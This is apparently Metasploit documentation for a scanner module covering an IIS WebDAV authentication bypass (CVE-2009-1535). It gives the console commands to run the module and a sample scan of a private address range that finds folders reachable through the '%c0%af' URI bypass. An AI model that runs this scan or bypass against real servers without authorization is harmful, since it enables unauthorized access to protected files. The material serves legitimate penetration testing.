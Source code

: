 ## Description

The WebDAV extension in Microsoft Internet Information Services (IIS) 5.1 and 6.0 allows remote attackers to bypass URI-based protection mechanisms, and list folders or read, create, or modify files, via a %c0%af (Unicode / character) at an arbitrary position in the URI, as demonstrated by inserting %c0%af into a "/protected/" initial pathname component to bypass the password protection on the protected\ folder, aka "IIS 5.1 and 6.0 WebDAV Authentication Bypass Vulnerability," a different vulnerability than CVE-2009-1122. More info about this vulnerability can be found (here)[http://cve.mitre.org/cgi-bin/cvename.cgi?name=2009-1535]

CVE: CVE-2009-1535

## Verification Steps

1. Do: ```use auxiliary/scanner/http/dir_webdav_unicode_bypass```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set THREADS [number of threads]```
4. Do: ```run```

You can keep the default DICTIONARY and HTTP404S dictionary settings, set our RHOSTS and THREADS values and let the module run.

## Scenarios

**Running the scanner**

```
msf > use auxiliary/scanner/http/dir_webdav_unicode_bypass
msf auxiliary(dir_webdav_unicode_bypass) > show options

Module options (auxiliary/scanner/http/dir_webdav_unicode_bypass):

   Name        Current Setting                                          Required  Description
   ----        ---------------                                          --------  -----------
   DICTIONARY  /usr/share/metasploit-framework/data/wmap/wmap_dirs.txt  no        Path of word dictionary to use
   ERROR_CODE  404                                                      yes       Error code for non existent directory
   HTTP404S    /usr/share/metasploit-framework/data/wmap/wmap_404s.txt  no        Path of 404 signatures to use
   PATH        /                                                        yes       The path to identify files
   Proxies                                                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                                               yes       The target address range or CIDR identifier
   RPORT       80                                                       yes       The target port (TCP)
   SSL         false                                                    no        Negotiate SSL/TLS for outgoing connections
   THREADS     1                                                        yes       The number of concurrent threads
   VHOST                                                                no        HTTP server virtual host

msf auxiliary(dir_webdav_unicode_bypass) > set RHOSTS 192.168.1.200-254
RHOSTS => 192.168.1.200-254
msf auxiliary(dir_webdav_unicode_bypass) > set THREADS 20
THREADS => 20
msf auxiliary(dir_webdav_unicode_bypass) > run

[*] Using code '404' as not found.
[*] Using code '404' as not found.
[*] Using code '404' as not found.
[*] Found protected folder http://192.168.1.211:80/admin/ 401 (192.168.1.211)
[*] 	Testing for unicode bypass in IIS6 with WebDAV enabled using PROPFIND request.
[*] Found protected folder http://192.168.1.223:80/phpmyadmin/ 401 (192.168.1.223)
[*] 	Testing for unicode bypass in IIS6 with WebDAV enabled using PROPFIND request.
[*] Found protected folder http://192.168.1.223:80/security/ 401 (192.168.1.223)
[*] 	Testing for unicode bypass in IIS6 with WebDAV enabled using PROPFIND request.
[*] Found protected folder http://192.168.1.204:80/printers/ 401 (192.168.1.204)
[*] 	Testing for unicode bypass in IIS6 with WebDAV enabled using PROPFIND request.
[*] 	Found vulnerable WebDAV Unicode bypass target http://192.168.1.204:80/%c0%afprinters/ 207 (192.168.1.204)
[*] Found protected folder http://192.168.1.203:80/printers/ 401 (192.168.1.203)
[*] 	Testing for unicode bypass in IIS6 with WebDAV enabled using PROPFIND request.
[*] 	Found vulnerable WebDAV Unicode bypass target http://192.168.1.203:80/%c0%afprinters/ 207 (192.168.1.203)
...snip...
[*] Scanned 55 of 55 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(dir_webdav_unicode_bypass) >
```

The scan can find vulnerable servers. This vulnerability can potentially allow attacker to list, download, or even upload files to password protected folders.
